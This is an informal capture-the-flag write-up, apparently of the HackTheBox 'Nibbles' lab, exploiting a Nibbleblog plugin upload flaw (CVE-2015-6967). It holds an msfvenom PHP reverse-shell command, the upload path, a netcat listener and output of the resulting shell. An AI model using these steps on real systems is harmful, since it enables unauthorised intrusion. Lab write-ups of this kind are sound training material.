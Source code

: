 now that we know it is vulnerable 

1st method msf

it was not working since i made some mistakes 

basic msf commands

set TARGETURI to /nibbleblog/

other will be as required

and we get a shell in metasploit



2nd method - manual


created a payload
──(root💀kali)-[~/Desktop/THM/CVE-2015-6967]
└─# msfvenom -p php/reverse_php LHOST:10.10.16.6 LPORT:9900 -f raw -o nibbles3.php


uploaded this to http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image


started nc listener on 9900 and access the upload with this path

10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php



but i was still not able to get a shell


i watched multiple vidoes to see where i was goind wrong

https://www.youtube.com/watch?v=8egSjUIw0VU


checked this video and changed the php reverse shell file from msfvenom to pentest monkey


https://pentestmonkey.net/tools/web-shells/php-reverse-shell




and it worked got a shell on my netcat listener

┌──(root💀kali)-[~/Desktop/THM]
└─# nc -lnvp 1337                   
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.75] 43220
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:15:07 up  3:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ 
